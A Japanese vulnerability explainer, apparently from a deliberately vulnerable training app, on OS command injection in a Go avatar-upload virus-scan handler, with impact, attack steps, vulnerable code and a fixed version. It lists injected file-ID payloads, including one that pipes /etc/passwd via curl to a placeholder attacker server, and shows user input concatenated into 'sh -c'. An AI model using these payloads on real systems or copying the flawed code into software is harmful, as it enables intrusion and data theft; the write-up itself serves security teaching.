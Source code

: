 # OSコマンドインジェクション（アバターアップロード機能）

## 脆弱性の概要
アバターアップロード機能において、ユーザーが指定したファイルIDがウィルススキャン処理で適切にエスケープされずにOSコマンドに渡されるため、OSコマンドインジェクションの脆弱性が存在します。攻撃者はこの脆弱性を悪用して、サーバー上で任意のコマンドを実行することができます。

アバター画像データはデータベースに直接保存されますが、ウィルススキャンのために一時的にファイルシステムに保存される際に脆弱性が発生します。

## 影響
この脆弱性が悪用された場合、以下のような影響があります：
- サーバー上での任意のコマンド実行
- 機密情報の漏洩
- サーバーの乗っ取り
- サービス拒否攻撃（DoS）

## 攻撃方法
1. プロフィール編集画面でアバター画像をアップロードする際に、ファイルIDに悪意のあるコマンドを含める
2. 例えば、以下のようなファイルIDを使用する：
   - `avatar.jpg; ls -la /`
   - `avatar.jpg && cat /etc/passwd`
   - `avatar.jpg | curl -X POST -d @/etc/passwd https://攻撃者のサーバー/`

## 実装の詳細
アバター画像データはBase64エンコードされた形式でデータベースに直接保存されます。ただし、ウィルススキャンを行うために、一時的にファイルシステムに保存されます。この一時ファイルは処理完了後に削除されますが、ウィルススキャン処理中に脆弱性が発生します。

## 脆弱なコード
```go
func (h *Handler) UploadAvatar(c *gin.Context) {
    // ... 省略 ...
    
    // 一時ファイルの保存（ウィルススキャン用）
    filePath := filepath.Join(uploadDir, req.FileID)
    if err := os.WriteFile(filePath, imageData, 0644); err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to save temporary file"})
        return
    }
    defer os.Remove(filePath) // 処理完了後に一時ファイルを削除

    // 脆弱性: OSコマンドインジェクション
    // ユーザー入力（FileID）を適切にエスケープせずにコマンドに渡している
    if err := scanFile(filePath); err != nil {
        c.JSON(http.StatusBadRequest, gin.H{"error": "Virus detected or scan failed"})
        return
    }
    
    // ... 省略 ...
}

func scanFile(filePath string) error {
    // 脆弱性: OSコマンドインジェクション
    // ユーザー入力（filePath）を適切にエスケープせずにコマンドに渡している
    cmd := exec.Command("sh", "-c", "echo 'Scanning file: "+filePath+"' && grep -q 'virus_signature' "+filePath)
    output, err := cmd.CombinedOutput()
    if err != nil {
        if exitErr, ok := err.(*exec.ExitError); ok && exitErr.ExitCode() == 1 {
            // grepコマンドがパターンを見つけられなかった場合（終了コード1）は正常とみなす
            return nil
        }
        log.Printf("ウィルススキャンエラー: %v, 出力: %s", err, string(output))
        return err
    }
    return fmt.Errorf("ウィルスが検出されました")
}
```

## 対策方法
1. OSコマンドを使用せずに、プログラム内部でファイルの検査を行う
2. 必要に応じてOSコマンドを使用する場合は、以下の対策を行う：
   - ユーザー入力を適切にエスケープする
   - シェル（sh, bash）を介さずに直接コマンドを実行する
   - コマンドライン引数を配列として渡す

### 修正例
```go
// データベースに直接保存する実装
func (h *Handler) UploadAvatar(c *gin.Context) {
    // ... 省略 ...
    
    // 一時ファイルを作成せずにメモリ上でスキャン
    // または、一時ファイルを作成する場合は安全なファイル名を使用
    tempFile, err := os.CreateTemp("", "safe-prefix-*.jpg")
    if err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to create temporary file"})
        return
    }
    defer os.Remove(tempFile.Name())
    
    if _, err := tempFile.Write(imageData); err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": "Failed to write to temporary file"})
        return
    }
    tempFile.Close()
    
    // 安全なスキャン処理
    if err := scanFileSafely(tempFile.Name()); err != nil {
        c.JSON(http.StatusBadRequest, gin.H{"error": "Virus detected or scan failed"})
        return
    }
    
    // ... 省略 ...
}

func scanFileSafely(filePath string) error {
    // 修正: 引数を配列として渡し、シェルを介さずに実行
    cmd := exec.Command("grep", "-q", "virus_signature", filePath)
    err := cmd.Run()
    if err != nil {
        if exitErr, ok := err.(*exec.ExitError); ok && exitErr.ExitCode() == 1 {
            // grepコマンドがパターンを見つけられなかった場合（終了コード1）は正常とみなす
            return nil
        }
        log.Printf("ウィルススキャンエラー: %v", err)
        return err
    }
    return fmt.Errorf("ウィルスが検出されました")
}
```

## 参考情報
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
